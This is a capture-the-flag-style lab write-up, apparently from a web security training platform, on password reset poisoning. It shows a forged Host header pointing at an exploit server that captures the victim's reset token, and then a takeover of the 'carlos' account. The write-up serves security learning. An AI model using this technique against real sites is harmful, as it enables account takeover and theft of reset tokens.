


# HTTP Host header attacks
## 1. Basic password reset poisoning


### Description
This lab involves poisoning the `Host` header with a lab-provided exploit host which will be accessed by the hypothetical victim `carlos` with the reset token for his account.

### Solution
First, I sent a request to `/forgot-password` while having Burp Proxy's interception on. On the intercepted packet, I changed the `Host` header to the exploit server's domain, as follows:
> ```
> POST /forgot-password HTTP/2
> Host: exploit-0afa0068036c5301808320f201b700d2.exploit-server.
> ...
> ```

Afterwards, I checked the access logs of the exploit server to see if `carlos` had clicked on the link:



We can see here that the reset token had been submitted along with the `GET` request. I then accessed the following URI path with the reset token as a parameter:

> `/forgot-password?temp-forgot-password-token=98r2e1lih8tr11t70djiyx1c2zpgnlut`

This led me to a password reset page, through which I changed the password to `carlos` to `12345`.

I then logged in using the credentials `carlos:12345` and completed the lab.